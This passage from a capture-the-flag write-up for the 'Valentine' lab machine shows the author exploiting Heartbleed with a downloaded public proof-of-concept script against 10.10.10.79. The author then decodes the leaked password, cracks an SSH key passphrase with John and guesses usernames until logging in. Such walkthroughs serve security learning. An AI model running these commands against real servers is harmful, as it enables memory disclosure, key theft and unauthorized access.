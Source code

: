 > The **TLS** and **DTLS** implementations in OpenSSL 1.0.1 before 1.0.1g do **not properly handle Heartbeat Extension packets**, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the **Heartbleed** bug.

```bash
wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/refs/heads/master/heartbleed-poc.py
python3 heartbleed-poc.py
python2 heartbleed-poc.py
# -p PORT, --port=PORT  TCP port to test (default: 443)
python2 heartbleed-poc.py 10.10.10.79 -p 443
# Try harder!!
python2 heartbleed-poc.py 10.10.10.79 -p 443

echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d; echo
# heartbleedbelievethehype
echo heartbleedbelievethehype > custom_dictionary
john -w=./custom_dictionary hash
```

<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the password, I give the correct permissions to the private key and try to connect, but I have a new problem, I have **no valid username**. If I try some common usernames I have no luck and there is also a problem with the encryption algorithm used, on my machine I can not connect because it **is deprecated** so I must use the **[parameter indicated to connect using RSA](https://stackoverflow.com/questions/73795935/sign-and-send-pubkey-no-mutual-signature-supported){:target="_blank"}**. Finding the username **stuck me**, until I found a hint that the community gave me, and also **I avoid a brute force attack**. I only had to look for possible candidates in the key password itself, with the last one I was able to connect, access the first flag and perform the first enumeration commands (I confirmed that the codename was **Precise**).

```bash
chmod 600 id_rsa
ls -la ./id_rsa
ssh -i id_rsa root@10.10.10.79
# sign_and_send_pubkey: no mutual signature supported

ssh -i id_rsa root@10.10.10.79 -vv

ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa root@10.10.10.79

ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa heart@10.10.10.79
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa bleed@10.10.10.79
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa believe@10.10.10.79
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@10.10.10.79

whoami
export TERM=xterm
hostname -I
id
groups
uname -a
lsb_release -a
```
